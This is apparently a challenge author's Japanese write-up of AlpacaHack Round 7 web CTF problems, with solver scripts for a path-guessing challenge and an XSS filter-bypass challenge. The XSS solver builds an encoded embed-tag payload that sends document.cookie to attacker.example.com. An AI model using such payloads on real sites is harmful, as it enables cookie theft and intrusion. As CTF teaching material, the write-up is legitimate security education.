



import {Tweet} from "@site/src/components/tweet";

[AlpacaHack](https://alpacahack.com/)は個人戦のCTFを継続して開催する新しいCTFプラットフォームです。今回は[st98](https://x.com/st98_)さんと一緒にWeb回であるRound 7の作問を、担当しました。ご参加いただいた方々、ありがとうございました。

- [AlpacaHack Round 7 (Web)](https://alpacahack.com/ctfs/round-7)

<Tweet html='<blockquote class="twitter-tweet"><p lang="en" dir="ltr">Round 7 (Web) just ended 🦙<br>Thank you to all the players who participated!<br><br>Congratulations to the top 5 players:<br>1. icesfont<br>2. maple3142<br>3. parrot409<br>4. <a href="https://twitter.com/dimasma__">@dimasma__</a><br>5. ngk <a href="https://t.co/GH9bD8aCMS">pic.twitter.com/GH9bD8aCMS</a></p>&mdash; AlpacaHack (@AlpacaHack) <a href="https://twitter.com/AlpacaHack/status/1862784469729772016">November 30, 2024</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>'></Tweet>


AlpacaHackには[writeupを投稿する機能](https://alpacahack.com/ctfs/round-7/writeups)があるので、ぜひwriteupを書いて投稿してみてください。upsolveもOKです。AlpacaHackは常設CTFでもあるので、終わったCTFも実際にリモート環境でテストすることが可能です！

さて、今回は以下の問題をつくりました。本記事はそのwriteupになります。

|Challenge|Category|Keywords|Solved|
|:-:|:-:|:-:|:-:|
|Treasure Hunt|web|URL encoding|71|
|minimal-waf|web|XSS|4|
|disconnection|web|browser behavior|5|
|disconnection-revenge|web|browser behavior|1|

<!-- truncate -->

コンテスト開始早々に`disconnection`の問題で非想定解法が見つかったため、リベンジ問として`disconnection-revenge`を出題しました。`disconnection`/`disconnection-revenge`の解説は別記事として投稿する予定なので、少々お待ちください。

## Treasure Hunt

- 116 pts (71 solves)
- https://alpacahack.com/ctfs/round-7/challenges/treasure-hunt

問題文:
> Can you find a treasure?
>
> - Attachments: treasure-hunt.tar.gz

### 問題概要



```docker title="web/Dockerfile"
# Create flag.txt
RUN echo 'Alpaca{REDACTED}' > ./flag.txt

# Move flag.txt to $FLAG_PATH
RUN FLAG_PATH=./public/$(md5sum flag.txt | cut -c-32 | fold -w1 | paste -sd /)/f/l/a/g/./t/x/t \
    && mkdir -p $(dirname $FLAG_PATH) \
    && mv flag.txt $FLAG_PATH
```

以下のような、フラグのハッシュ値を`/`で位置文字ずつ区切られたパスにフラグファイルが置かれています。

```
./public/3/8/7/6/9/1/7/c/b/d/1/b/3/d/b/1/2/e/3/9/5/8/7/c/6/6/a/c/2/8/9/1/f/l/a/g/t/x/t
```

```javascript title="web/index.js"
import express from "express";

const html = `
<h1>Treasure Hunt 👑</h1>
<p>Can you find a treasure?</p>
<ul>
  <li><a href=/book>/book</a></li>
  <li><a href=/drum>/drum</a></li>
  <li><a href=/duck>/duck</a></li>
  <li><a href=/key>/key</a></li>
  <li><a href=/pen>/pen</a></li>
  <li><a href=/tokyo/tower>/tokyo/tower</a></li>
  <li><a href=/wind/chime>/wind/chime</a></li>
  <li><a href=/alpaca>/alpaca</a></li>
</ul>
`.trim();

const app = express();

app.use((req, res, next) => {
  res.type("text");
  if (/[flag]/.test(req.url)) {
    res.status(400).send(`Bad URL: ${req.url}`);
    return;
  }
  next();
});

app.use(express.static("public"));

app.get("/", (req, res) => res.type("html").send(html));

app.listen(3000);
```

`./public`以下のファイルには外部からアクセス可能な設定になっているため、以下の2つを達成することでフラグのファイルを取得することがこの問題のゴールです。

- 未知である`FLAG_PATH`のパスを特定する方法を見つける。
- `f`/`l`/`a`/`g` の文字を使わずにファイルにアクセスする。

### 想定解法

まずは、あるURLにアクセスしたときに該当パスにファイルが存在するかどうかによって、何らかの差異が発生しないか調査しましょう。試してみると、リダイレクトの有無によってレスポンスのステータスコードが異なることがわかります:

- ファイルが存在する場合 → リダイレクトが発生するため、ステータスコードが301になる。
- ファイルが存在しない場合 → リダイレクトが発生せず、ステータスコードが400になる。

よって、`0123456789abcdef`の文字を全探索することによってフラグのファイルパスを1文字ずつ先頭から確定することができるため、パス全体の特定が可能になります。

また、`req.url`はパーセントデコードされない文字列がそのまま使われるため、リクエスト時のURLパス部分にパーセントエンコードされた文字を使用すると、`/[flag]/.test(req.url)`をバイパスすることが可能です:

- 例: `f`→`%66`, `l`→`%6C`

### ソルバ

```python
import os
import httpx

HOST = os.getenv("HOST", "localhost")
PORT = int(os.getenv("PORT", 3000))

BASE_URL = f"http://{HOST}:{PORT}"

client = httpx.Client(base_url=BASE_URL)

chars = "0123456789abcdef" + "flagtxt"

known = []
while True:
    print(known)
    for c in chars:
        path = "/".join(["%" + hex(ord(x))[2:].zfill(2).upper() for x in known + [c]])
        res = client.get(path, follow_redirects=False)
        if res.status_code == 200:
            print(res.text)
            exit(0)
        if res.status_code == 301:
            known.append(c)
            break
    else:
        print("Failed")
        exit(1)
```

## minimal-waf

- 393 pts (4 solves)
- https://alpacahack.com/ctfs/round-7/challenges/minimal-waf

問題文:
> Here is a minimal WAF!
> Note: Don't forget that the target host is localhost from the admin bot.
>
> - Attachments: minimal-waf.tar.gz

### 問題概要


自由にHTMLが書けて、それをレンダリングしてくれるサービスが与えられます。



admin botのクッキーにフラグがあり、XSSすることが目標です。

```javascript title="web/index.js"
import express from "express";

const indexHtml = `
<title>HTML Viewer</title>
<link rel="stylesheet" href="https://unpkg.com/bamboo.css/dist/light.min.css">
<body>
  <h1>HTML Viewer</h1>
  <form action="/view">
    <p><textarea name="html"></textarea></p>
    <div style="text-align: center">
      <input type="submit" value="Render">
    </div>
  </form>
</body>
`.trim();

express()
  .get("/", (req, res) => res.type("html").send(indexHtml))
  .get("/view", (req, res) => {
    const html = String(req.query.html ?? "?").slice(0, 1024);

    if (
      req.header("Sec-Fetch-Site") === "same-origin" &&
      req.header("Sec-Fetch-Dest") !== "document"
    ) {
      // XSS detection is unnecessary because it is definitely impossible for this request to trigger an XSS attack.
      res.type("html").send(html);
      return;
    }

    if (/script|src|on|html|data|&/i.test(html)) {
      res.type("text").send(`XSS Detected: ${html}`);
    } else {
      res.type("html").send(html);
    }
  })
  .listen(3000);
```

しかし、入力文字列が`/script|src|on|html|data|&/i`の正規表現にマッチした場合はWAFに弾かれるようになっており、これをバイパスする必要があります。

### 想定解法

まずは、既存のXSSペイロードで攻撃が刺さりそうなものがないか探してみましょう。「XSS payload」等で色々なサイトがヒットしますが、情報の網羅性や動作するブラウザの表示などが便利なので、以下のサイトを参照するのがおすすめです:

- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
    - Cross-Site Scripting (XSS) Cheat Sheet - 2024 Edition | Web Security Academy



`<embed>`の`code`属性が使えそうです。ただし、ここままだと`html`部分等がWAFに弾かれてしまうため、タブ文字を使ったり、パーセントエンコーディングをしたり、`type=text/xml`を使ったりして回避しましょう。

### 非想定解法

想定解法は既存のXSSペイロードを応用する問題でしたが、参加者のwriteupによればブラウザのキャッシュ機構を悪用して、`Sec-Fetch-*`の判定箇所をバイパスする解法もあったようです。

- 参考: https://alpacahack.com/ctfs/round-7/writeups

※ `<embed>`の`code`属性でURLを指定したときに対象のレスポンスのContent-TypeによってXSSが刺さるかどうかが変わるため、`Sec-Fetch-*`の判定部分は問題成立のための処置でした。そのため問題の本質部分ではなかったのですが、これによって別の解法が生まれていておもしろいです。

### ソルバ

```javascript
const CONNECTBACK_URL = "https://attacker.example.com";

const innerHtml = `<script>navigator.sendBeacon("${CONNECTBACK_URL}", document.cookie)</script>`;
const encode = (s) => [...s].map((c) => "%" + c.codePointAt(0).toString(16).padStart(2, "0")).join("");
const outerHtml = `<embed code="/view?h\ttml=${encode(innerHtml)}" type=text/xml>`;

console.log(`http://localhost:3000/view?html=${encodeURIComponent(outerHtml)}`)
// http://localhost:3000/view?html=%3Cembed%20code%3D%22%2Fview%3Fh%09tml%3D%253c%2573%2563%2572%2569%2570%2574%253e%256e%2561%2576%2569%2567%2561%2574%256f%2572%252e%2573%2565%256e%2564%2542%2565%2561%2563%256f%256e%2528%2522%2568%2574%2574%2570%2573%253a%252f%252f%2561%2574%2574%2561%2563%256b%2565%2572%252e%2565%2578%2561%256d%2570%256c%2565%252e%2563%256f%256d%2522%252c%2520%2564%256f%2563%2575%256d%2565%256e%2574%252e%2563%256f%256f%256b%2569%2565%2529%253c%252f%2573%2563%2572%2569%2570%2574%253e%22%20type%3Dtext%2Fxml%3E
```

上記を実行して出力されたURLをadmin botに提出すると、`https://attacker.example.com`に対してフラグが送信されます。

## disconnection

- 364 pts (5 solves)
- https://alpacahack.com/ctfs/round-7/challenges/disconnection

※ 別記事で解説予定なので、詳細はしばらくお待ちください。

## disconnection-revenge

- 500 pts (1 solve)
- https://alpacahack.com/ctfs/round-7/challenges/disconnection-revenge

※ 別記事で解説予定なので、詳細はしばらくお待ちください。
